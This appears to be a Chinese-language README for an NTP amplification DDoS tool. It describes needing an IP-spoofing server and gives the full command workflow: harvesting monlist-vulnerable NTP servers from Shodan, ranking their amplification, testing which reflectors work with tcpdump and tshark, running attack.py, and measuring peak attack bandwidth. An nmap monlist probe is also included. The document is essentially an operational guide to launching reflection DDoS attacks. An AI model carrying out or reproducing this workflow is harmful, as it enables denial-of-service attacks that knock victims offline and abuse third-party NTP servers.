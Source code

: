 > 需要有一台ISP没做源地址验证，支持IP Spoof的服务器。很难很难找，但是我有，但是为了防止滥用，就不公开了（doge)。如果有需要的话，那就自己慢慢交学费吧。
>
> 还需要shodan的API，这边提供了shodan寻找有monlist漏洞的ntp服务器技巧，我是用会员API KEY写的脚本，非会员的话就修改一下search.py中的search_and_save函数


```
# 从shodan中下载ntp 服务器清单
python search.py

# 查找ntp放大倍率高的服务器
python top.py
```



跑出一份top.txt后，但是实际上top.txt中的ntp服务器很多依然是不可用的，需要将top.txt同时上传到攻击机和模拟受害机实测一下

```
#模拟受害机
tcpdump -i eth0 udp -w 1.cap

#攻击机
python3 test.py

#模拟受害机，查看抓包的结果。（顺序）输出所有在1.cap中出现次数超过10次且同时存在于top.txt中的ip
tshark -r 1.cap -T fields -e ip.src -Y 'ntp' | sort | uniq -c | sort -n | awk '$1 > 10' | grep -F -f top.txt | awk '{ print $2 }' > final.txt

```



测试峰值带宽：

```
#模拟受害机
tcpdump -i eth0 udp -w 2.cap

#攻击机
python3 attack.py
```

2.cap用wireshark打开：统计—>I/O图表，Y轴改成Bytes，就可以测算峰值带宽了
![](2cap.png)


PS：测试阿里/腾讯服务器貌似不能成功，存在 NTP 的反射防护策略。抓包了一下攻击流量（腾讯云服务器运行`nmap -sU -pU:123 -Pn -n --script=ntp-monlist <存在monlist漏洞的ntp服务器ip>`)，可以看到返回的ip是内网的ip。

![](txy.png)

